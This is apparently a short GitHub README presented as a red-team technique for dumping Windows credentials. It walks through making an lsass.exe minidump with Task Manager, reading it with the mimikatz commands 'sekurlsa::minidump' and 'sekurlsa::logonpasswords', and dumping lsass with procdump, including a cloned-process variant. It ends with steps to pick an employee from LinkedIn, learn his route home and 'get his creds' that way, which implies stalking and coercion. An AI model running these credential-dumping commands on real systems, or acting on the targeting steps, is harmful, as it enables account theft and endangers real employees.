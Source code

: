 # the_new_redteaming_technique

First OF all, Create a minidump of the lsass.exe using task manager (must be running as administrator):

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTRoRHqLqkBWb_aw4%2FScreenshot%20from%202019-03-12%2019-55-27.png?alt=media&token=0c8f45d6-6425-4d5a-8e3f-1f30ff4577ec)

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTYMBz-VWM11dadu6%2FScreenshot%20from%202019-03-12%2019-56-12.png?alt=media&token=f92b493e-f1aa-4a46-8edf-d64eebdd9f65)




Second , Swtich mimikatz context to the minidump:

sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nT6tDqGhJv_fdKOnw%2FScreenshot%20from%202019-03-12%2019-54-15.png?alt=media&token=cccc99d5-632c-40aa-903d-d89c21fb1133)







Now it's a time for Procdump

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nX2I6LfCsWLSkjzwg%2FScreenshot%20from%202019-03-12%2020-11-28.png?alt=media&token=43e85fd4-36bf-43ba-9fd9-62d43712e1e8)




![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nXVaJRSNnJZayxbL_%2FScreenshot%20from%202019-03-12%2020-13-25.png?alt=media&token=4e87b3ef-c690-4b43-b3f6-0ba244495398)






After doing all of the above steps, you need to do the following steps: 

1- try to figure the needed employee from Linkedin profile of the company 
2- try to know when the employee will leave the work and which road he will take 
3- use this technique to get his creds 

![alt text](https://i.ibb.co/vQVQXkQ/279407320-359224712933498-202643383967457168-n.jpg)




PS : all screen shots are from https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz
